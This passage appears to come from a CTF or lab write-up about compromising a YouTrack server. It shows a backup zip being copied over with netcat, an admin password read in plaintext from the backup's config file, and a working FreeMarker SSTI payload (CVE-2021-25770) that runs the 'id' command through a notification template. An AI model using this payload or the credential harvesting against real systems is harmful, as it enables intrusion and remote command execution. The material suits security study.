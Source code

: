 On `dev`
```plain
bob@dev:/tmp$ nc -l -p 1234 > youtrack-1683836642.zip
```

On `backup`
```plain
nc -w 3 dev 1234 < youtrack-1683836642.zip
```

Once the backup is unzipped, we can start poking around, and for example grep the "password" string.

```plain
bob@dev:/tmp/youtrack$ grep -R -i password
...
conf/youtrack/service-config.properties:bundle.root-password=Th1sIsAV3ryS3cur3Adm1nP4ssw0rd0101#
...
```

This occurs because the administration password is stored in the configuration in plaintext during the first setup, until the app is restarted at some point.

The backup log file shows a failure to fetch the data from the app, we can assume that the app restarted at this point, which is why the password will not be found in any other backup.

If we go back to the youtrack interface, we can now connect as admin.

As I said in the first step, youtrack has a known [SSTI](https://www.synacktiv.com/en/publications/exploiting-cve-2021-25770-a-server-side-template-injection-in-youtrack.html) detailed in the article. While on the Youtrack interface, you can notice at the bottom the build number (2020.5.2579) which matches the version in the article.

Let's go to http://localhost:8080/admin/notificationTemplates/article_digest_subject and try the payload.

```java
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>${dwf.newInstance(ec,null)("id")}
```

![ssti](images/ssti.png)
